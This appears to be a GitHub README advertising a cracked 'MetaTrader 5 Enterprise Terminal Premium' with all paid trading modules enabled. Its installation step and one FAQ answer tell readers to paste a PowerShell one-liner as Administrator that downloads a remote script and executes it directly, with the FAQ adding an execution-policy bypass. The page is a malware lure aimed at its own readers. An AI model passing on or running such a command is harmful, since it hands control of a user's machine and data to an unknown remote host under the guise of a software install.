

<div align="center">


<br>


# MetaTrader 5 Enterprise Terminal Premium
**Enterprise multi-asset terminal · Advanced algorithmic trading · Premium market analytics**
<br>
**Enterprise multi-asset terminal · Advanced algorithmic trading · Premium market analytics**
<br>
Complete Edition · Pro Build · Windows · Deployment



**Complete Edition — all enterprise terminal modules and premium trading features enabled.**

</div>
---

> Licensed enterprise terminal with algorithmic trading, premium analytics, and every MT5 module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📈 **Advanced charting** — Pro indicators and studies enabled.
💹 **Multi-asset support** — Stocks, futures and forex workflows.
📦 **Local terminal** — Works offline after setup.
🖥️ **Windows optimized** — Built for active traders.
⚙️ **Pro analytics** — Order flow and strategy tools included.
✨ **Premium modules** — Paid trading features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 500 MB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB, 500 MB.
</details>


TAGS
metatrader-5, multi-asset, algorithmic-trading, forex, market-analytics, ea-development, enterprise, windows, desktop, software, pro, studio, tools
